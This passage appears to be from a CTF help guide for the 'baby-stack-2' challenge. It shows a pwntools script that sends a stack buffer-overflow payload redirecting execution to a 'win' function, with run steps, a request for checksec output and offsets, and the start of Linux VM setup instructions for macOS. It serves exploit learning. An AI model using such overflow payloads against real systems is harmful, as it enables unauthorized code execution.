 ```python
# p64(WIN_FUNCTION_ADDRESS) is the 64-bit address of our win function, in little-endian format
payload = b'A' * OFFSET + p64(WIN_FUNCTION_ADDRESS)

log.info(f"Calculated offset: {OFFSET}")
log.info(f"Win function address: {hex(WIN_FUNCTION_ADDRESS)}")
log.info(f"Payload ({len(payload)} bytes): {payload}")

# Wait for the "Username: " prompt
line = target.recvuntil(b"Username: ")
log.info(f"Received: {line.decode().strip()}")

# Send the payload
log.info("Sending payload...")
target.sendline(payload)

# Go interactive to see the output (hopefully the flag!)
log.info("Switching to interactive mode...")
target.interactive()
```

**To run the exploit:**

1.  Ensure you are in your x86-64 Docker container (e.g., `ctf_x86_privileged`).
2.  Navigate to the directory containing `baby-stack-2` and `exploit.py` (e.g., `/mnt/ctf`).
3.  Run the script: `python3 exploit.py`

This should connect to the server, send the payload, and hopefully provide the flag or a shell.

**What I need from you to proceed:**

1.  The output of `checksec ./baby-stack-2`.
2.  The offset to the return address (RIP/EIP).
3.  The name and address of any potential "win" or flag-giving function. If PIE is enabled for the binary, we'll need to be aware of that.

Once you provide this information, I can help you refine the exploit script.

## 4. Setting up a Linux Environment on macOS (for ELF binaries)

Since the `baby-stack-2` binary is a Linux ELF executable, you'll need a Linux environment to analyze and run it on macOS. Here are two common methods:

### Method A: Virtual Machine (e.g., VirtualBox with Ubuntu Desktop)

This method provides a full Linux desktop experience.

1.  **Download and Install Virtualization Software**:
    - Get VirtualBox from [virtualbox.org](https://www.virtualbox.org/) (free) or consider VMware Fusion/Parallels Desktop (paid).
    - Install it on your Mac.
2.  **Download a Linux ISO**:
    - Get a Linux distribution ISO, for example, Ubuntu Desktop LTS from [ubuntu.com/download/desktop](https://ubuntu.com/download/desktop).
3.  **Create VM in VirtualBox**:
    - Open VirtualBox, click "New".
    - Name it, set Type to "Linux", Version to "Ubuntu (64-bit)" (or your chosen distro).
    - Allocate RAM (e.g., 4GB+).
    - Create a virtual hard disk (VDI, dynamically allocated, 25GB+ recommended).
4.  **Install Linux in VM**:
    - Start the VM. When prompted for a startup disk, select the Linux ISO you downloaded.
    - Follow the on-screen instructions to install Linux inside the VM.
5.  **Install Guest Additions**: